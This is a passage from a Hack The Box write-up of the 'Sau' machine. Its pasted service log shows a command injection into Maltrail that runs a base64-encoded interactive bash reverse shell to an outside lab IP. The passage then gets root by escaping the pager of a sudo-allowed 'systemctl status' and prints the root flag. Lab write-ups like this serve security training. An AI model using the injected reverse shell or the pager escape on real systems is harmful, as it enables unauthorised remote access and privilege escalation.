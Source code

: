 ```shell
             ├─3969 /bin/sh -c logger -p auth.info -t "maltrail[867]" "Failed password for ;`echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvOTAwMSAwPiYx"|base64 -d|bash` from 127.0.0.1 port 40982"
             ├─3970 /bin/sh -c logger -p auth.info -t "maltrail[867]" "Failed password for ;`echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvOTAwMSAwPiYx"|base64 -d|bash` from 127.0.0.1 port 40982"
             ├─3973 bash
             ├─3974 /bin/bash -i
             ├─3990 sudo /usr/bin/systemctl status trail.service
             └─3992 /usr/bin/systemctl status trail.service

Jul 12 03:12:38 sau maltrail[3874]: Failed password for ; from 127.0.0.1 port 41318
Jul 12 03:13:02 sau maltrail[3888]: Failed password for ; from 127.0.0.1 port 41982
Jul 12 03:13:13 sau maltrail[3902]: Failed password for ; from 127.0.0.1 port 56598
Jul 12 03:13:38 sau maltrail[3918]: Failed password for ; from 127.0.0.1 port 37932
Jul 12 03:13:56 sau maltrail[3933]: Failed password for ; from 127.0.0.1 port 44900
Jul 12 03:18:04 sau maltrail[3950]: Failed password for ; from 127.0.0.1 port 52552
Jul 12 03:18:15 sau maltrail[3964]: Failed password for ; from 127.0.0.1 port 50450
Jul 12 03:26:14 sau sudo[3988]:     puma : TTY=unknown ; PWD=/opt/maltrail ; USER=root ; COMMAND=list
Jul 12 03:27:01 sau sudo[3990]:     puma : TTY=unknown ; PWD=/opt/maltrail ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Jul 12 03:27:01 sau sudo[3990]: pam_unix(sudo:session): session opened for user root by (uid=0)
```

At first I thought I need to overwrite the `server.py` that is being executed by the service, but the user `puma` cannot write to the directory/file nor stop the service.

<br>

### Getting a shell

Spawning a shell
```shell
script /dev/null -c bash
sudo /usr/bin/systemctl status trail.service
!sh
```

<br>

### Root.txt

```shell
# cat /root/root.txt
cat /root/root.txt
6870fc4607c4cbcba034f644157b74c2
```

That's how I pwned Sau.

<br>

### Achievement:
https://www.hackthebox.com/achievement/machine/743510/551